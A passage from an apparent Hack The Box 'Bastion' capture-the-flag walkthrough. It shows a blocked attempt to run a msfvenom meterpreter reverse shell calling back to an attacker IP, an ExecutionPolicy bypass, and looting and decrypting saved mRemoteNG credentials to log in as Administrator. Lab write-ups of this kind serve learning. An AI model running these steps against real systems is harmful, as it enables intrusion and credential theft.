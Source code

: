 ```
l4mpje@BASTION C:\Windows\Tasks>shell.exe                                                                          
The system cannot execute the specified program.
```

Ah. I guess AppLocker doesn't want us executing a random reverse shell, so we're going to have to get creative. I decided to try using Powershell as a way of bypassing AppLocker.

```
msfvenom --payload windows/x64/meterpreter_reverse_tcp LHOST=10.10.13.9 LPORT=4444 --format psh > shell.ps1
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 206403 bytes
Final size of psh file: 964185 bytes
```

```
l4mpje@BASTION C:\Users\L4mpje>powershell.exe -ExecutionPolicy Bypass -File shell.ps1                              
Operation did not complete successfully because the file contains a virus or potentially unwanted software.        
    + CategoryInfo          : ObjectNotFound: (:String) [], ParentContainsErrorRecordException                     
    + FullyQualifiedErrorId : CommandNotFoundException   
```

I spent far too long trying to get a meterpreter shell running on this box before I decided to try a different tactic. I did some enumeration for things that looked out of place on the box and found a copy of mRemoteNG installed. This program allows a user to connect to remote machines over a number of different protocols such as SSH, RDP etc. I went looking for a file containing saved connections and found it in `C:\Users\L4mpje\AppData\Remote\mRemoteNG\confCons.xml`.

The version of mRemoteNG that was installed on Bastion encrypts passwords using AES128-GCM, but can use a default password that is then stretched to form the AES key. Googling for 'mremoteng password decrypt' will give you a ruby script from quite a long time ago (when AES128-CBC was used) which will not work, and a number of similar python scripts. I used the one at https://github.com/kmahyyg/mremoteng-decrypt. Initially I was pointing it at the confCons.xml file I looted from Bastion, but was always getting a MAC check failed error, even when I tried a couple of different easy to guess passwords. Then I tried extracting the password ciphertext for the connection I was interested and ran:

```
python mremoteng_decrypt.py -s aEWNFV5uGcjUHF0uS17QTdT9kVqtKCPeoC0Nw5dmaPFjNQ2kt/zO5xDqE4HdVmHAowVRdC7emf7lWWA10dQKiw==
Password: thXLHM96BeKL0ER2
```

With the Administrator password in hand, all I had to do now was connect to SSH again, but this time as the Administrator user:

```
Microsoft Windows [Version 10.0.14393]                                                                             
(c) 2016 Microsoft Corporation. All rights reserved.                                                               

administrator@BASTION C:\Users\Administrator>whoami                                                                
bastion\administrator                                                                                              

administrator@BASTION C:\Users\Administrator>dir                                                                   
 Volume in drive C has no label.                                                                                   
 Volume Serial Number is 0CB3-C487                                                                                 
```